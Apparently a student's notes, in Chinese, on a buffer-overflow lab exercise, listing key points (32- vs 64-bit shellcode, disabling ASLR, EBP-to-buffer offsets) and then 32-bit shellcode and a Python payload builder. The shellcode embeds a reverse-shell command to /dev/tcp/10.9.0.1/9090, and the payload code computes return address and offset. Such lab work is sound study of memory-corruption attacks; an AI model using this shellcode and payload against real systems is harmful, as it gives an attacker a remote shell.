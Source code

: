 ### Lab4 缓冲区溢出实验

重点一： 32bit和64bit的shellcode完全不一样（吃了大亏） 重点二： 关闭地址随机化ASLR 重点三： shellcode与EBP与Buffer的地址关系：

* 32位：EBP - Buffer’s address + 4
* 64位：EBP - Buffer’s address + 8

#### 32位

shellcode

```python
shellcode= (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```

**32位 Level 1**

已知buff地址和ebp地址

payload构造：

```python
# Put the shellcode somewhere in the payload
start =  517-len(shellcode) # Change this number 
content[start:start + len(shellcode)] = shellcode
​
buff= 0xffffcac8
ebp = 0xffffcb38
​
ret = ebp + 8 # Change this number 
offset = ebp - buff + 0x4           # Chage this number 
print('offset:',offset)
​
# Use 4 for 32-bit address and 8 for 64-bit address 
content[offset:offset + 4] = (ret).to_bytes(4, byteorder='little')
```
